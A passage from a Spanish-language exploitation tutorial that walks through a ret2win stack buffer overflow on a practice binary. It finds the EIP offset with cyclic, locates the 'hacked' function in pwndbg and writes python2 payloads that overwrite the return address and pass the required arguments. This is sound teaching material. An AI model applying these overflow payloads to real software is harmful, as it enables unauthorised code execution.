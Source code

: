 Vemos que se produce un error de segmentación (igual que antes). Si revisamos el contenido del puntero de instrucción (`EIP`), es decir, la *dirección de retorno*:

```gdb-pwndbg
[...]
*EIP  0x61616168 ('haaa')
[...]
```

Vemos que se ha sobrescrito con `haaa`, podemos calcular el *offset* con *cyclic*:

```bash
cyclic -l haaa
```
```cyclic
28
```

Vamos a crear un *payload* con python2 para que al igual que en la [sección anterior](Ret2Win.md), al terminar de ejecutar la función *register_name*, en lugar de volver a *main*, la dirección de retorno sea la de *hacked*. Para ello debemos ver cuál es la dirección de *hacked*, lo haremos descompilando la función y viendo la dirección de la primera línea:

```gdb-pwndbg
disassemble hacked
```
```gdb-pwndbg
Dump of assembler code for function hacked:
   0x08049182 <+0>:	push   ebp
   [...]
```

Ya podemos crear el *payload* (recordad que es *little-endian* ó *LSB*, por lo que va al revés):

```bash
python2 -c 'print "A"*28 + "\x82\x91\x04\x08" + "BBBB" + "CCCC" + "DDDD"' > payload
```
> Recordad redirigir la salida a un archivo, ya que al copiar y pegar se realiza una conversión que cambia el valor del *payload*.

Después de la dirección hemos añadido tres parámetros más, las *B* representan el puntero de pila (*stack pointer*); y las *C* y *D*, los dos argumentos que recibe la función. Si ejecutamos pasándole el *payload*:

```gdb-pwndbg
run < payload
```
```ret2win_params
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBBCCCCDDDD
Unauthorised access to secret function detected, authorities have been alerted!!
```

Vemos que ha entrado en la función *hacked* pero como era de esperar, tenemos que dar un valor a los parámetros. Como vimos en el código fuente, el primer parámetro debe ser `0xdeadbeef` y el segundo `0xc0debabe`, así que modificamos el *payload*:

```gdb-pwndbg
python2 -c 'print "A"*28 + "\x82\x91\x04\x08" + "BBBB" + "\xef\xbe\xad\xde" + "\xbe\xba\xde\xc0"' > payload
```
> Las *B* las dejamos, ya que son el puntero de pila.
